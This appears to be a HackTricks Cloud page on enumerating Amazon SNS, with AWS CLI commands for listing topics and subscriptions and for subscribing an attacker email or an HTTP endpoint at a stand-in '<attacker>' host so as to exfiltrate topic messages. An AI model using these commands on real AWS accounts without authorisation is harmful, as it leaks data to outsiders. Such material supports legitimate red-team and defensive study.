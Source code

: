# AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) is described as a **fully managed messaging service**. It supports both **application-to-application** (A2A) and **application-to-person** (A2P) communication types.

Key features for A2A communication include **publish/subscribe (pub/sub) mechanisms**. These mechanisms introduce **topics**, crucial for enabling high-throughput, **push-based, many-to-many messaging**. This feature is highly advantageous in scenarios that involve distributed systems, microservices, and event-driven serverless architectures. By leveraging these topics, publisher systems can efficiently distribute messages to a **wide range of subscriber systems**, facilitating a fanout messaging pattern.

### **Difference with SQS**

**SQS** is a **queue-based** service that allows point-to-point communication, ensuring that messages are processed by a **single consumer**. It offers **at-least-once delivery**, supports standard and FIFO queues, and allows message retention for retries and delayed processing.\
On the other hand, **SNS** is a **publish/subscribe-based service**, enabling **one-to-many** communication by broadcasting messages to **multiple subscribers** simultaneously. It supports **various subscription endpoints like email, SMS, Lambda functions, and HTTP/HTTPS**, and provides filtering mechanisms for targeted message delivery.\
While both services enable decoupling between components in distributed systems, SQS focuses on queued communication, and SNS emphasizes event-driven, fan-out communication patterns.

### **Enumeration**

```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
    --topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
    --message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
    --topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
    --protocol email \
    --notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
    --protocol http \
    --notification-endpoint http://<attacker>/ \
    --topic-arn <arn>
```

{% hint style="danger" %}
Note that if the **topic is of type FIFO**, only subscribers using the protocol **SQS** can be used (HTTP or HTTPS cannot be used).

Also, even if the `--topic-arn` contains the region make sure you specify the correct region in **`--region`** or you will get an error that looks like indicate that you don't have access but the problem is the region.
{% endhint %}

#### Unauthenticated Access

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Privilege Escalation

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post Exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistence

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## References

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
